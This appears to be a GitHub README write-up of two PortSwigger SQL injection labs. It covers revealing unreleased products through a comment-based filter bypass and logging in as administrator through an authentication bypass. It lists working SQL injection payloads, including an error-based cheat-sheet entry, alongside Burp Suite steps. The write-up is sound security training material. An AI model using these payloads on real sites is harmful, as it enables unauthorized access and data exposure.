 
<h1 align="center">🧠 PortSwigger SQL Injection Labs</h1>

<p align="center">
  <b>🔍 Portswigger SQLi Labs</b><br>
  <i>Lab: SQL Injection vulnerability</i>
</p>

<p align="center">
  <img src="https://img.shields.io/badge/focus-SQL%20Injection-darkred?style=flat-square">
  <img src="https://img.shields.io/badge/goal-Display%20Unreleased%20Products-darkblue?style=flat-square">
</p>

---

<h3 align="center">🤫 Lab 1 - Retrieving Hidden Data via SQL Injection</h3>

<p align="center">
  <b>Lab: SQL Injection Vulnerability allows retriving hidden data</b><br>
  <i>Target: display unreleased products via SQL Injection.</i>
</p>

### 🧠 Lab Context

> This lab contains a SQL injection vulnerability in the product category filter. The application constructs a SQL query like:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Your goal is to perform a SQLi attack and **display unreleased products**.

---

### 🎯 Goal

✅ **Exploit SQL Injection to bypass filter and display unreleased products.**

---

### 🛠️ Basic Injection Strategy

When selecting a category, the app builds the query dynamically without sanitization:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

You can inject a comment to nullify the second condition:

```http
https://insecure-website.com/products?category=Gifts'--
```

🔎 This results in:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- `--` comments out the rest of the query.
- Now, **all products in 'Gifts'**, released or not, are shown.

---

### 🧪 Test: All Categories (OR Based)

Injecting logic always true to access everything:

```http
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Resulting SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

- `1=1` is always true → All products from all categories shown.
---

### 🧩 Injection Cheat Sheet

| Injection Type | Payload | Effect |
|----------------|---------|--------|
| Comment | `'--` | Comments out the rest |
| Boolean OR | `' OR 1=1--` | Always true condition |
| Error-Based | `' AND 1=CAST((CHR(113)||CHR(107)||CHR(112)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END))::text||CHR(113)||CHR(122)||CHR(120)||CHR(113)||CHR(113) AS NUMERIC)--` | Can cause errors and leak info |

---

### ✅ Lab Status
> ✔️ **Completed** - Successfully display unreleased products.

------

<h3 align="center"> 💉Lab 2 - SQL Injection Vulnerability Allowing Login Bypass </h3>

<p align="center">
  <b>Lab: SQL Injection Vulnerability Allowing Login Bypass</b><br>
  <i>Target: Login as <code>administrator</code> by bypassing authentication via SQL Injection.</i>
</p>

### 🎯 Objective
Perform a SQL injection attack to log in to the application as the `administrator` user.

---

### 🧪 Scenario Description

This lab contains a SQL injection vulnerability in the **login function**.

The application executes a SQL query similar to:

```sql
SELECT * FROM users WHERE username = '<input>' AND password = '<input>'
```

Since the application doesn’t implement proper sanitization, you can exploit this to bypass authentication.

---

### 🧠 Understanding the Attack
Injecting the following payload into the `username` field:
```
administrator'--
```

### Why it works?
This transforms the backend query to:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Here:
- `--` comments out the rest of the query (including password check)
- Only the username is validated, and since it's correct, login is bypassed

---

### 🧰 Tools Used
- 🔍 **Burp Suite**: Used to intercept and modify HTTP request
- 🔑 **Browser**: To view result post-exploit

---

### 🚦 Steps to Solve
<details>
<summary>📋 <strong>Step-by-step Instructions</strong></summary>

1. Open the target application in your browser.
2. Intercept the login request using **Burp Suite**.
3. Modify the `username` field as follows:

   ```administrator'-- ```
   or 
   username=administrator & inject the payload into the password field = ``` ' OR 1=1 --' ```

4. Leave the password blank or anything.
5. Forward the request.
6. You should now be logged in as the administrator.
</details>

---
### ✅ Lab Status
> ✔️ **Completed** - Successfully bypassed authentication and logged in as administrator.
---

### 📚 Learning Takeaways

- SQL comments can terminate rest of a query.
- Boolean logic can bypass conditions.
- Always validate and sanitize user input.

---

### 🚨 Disclaimer

> ⚠️ For **educational purposes only**. Do **not** perform SQLi on systems you don't own or have explicit permission to test.

---

### 🧑‍💻 Author

Built with ❤️ by [PardhuVarma](https://linkedin.com/in/pardhu-sri-rushi-varma-konduru-696886279)

<p align="center">
  <img src="https://img.shields.io/badge/status-Lab%20Completed-darkgreen?style=for-the-badge">
</p>
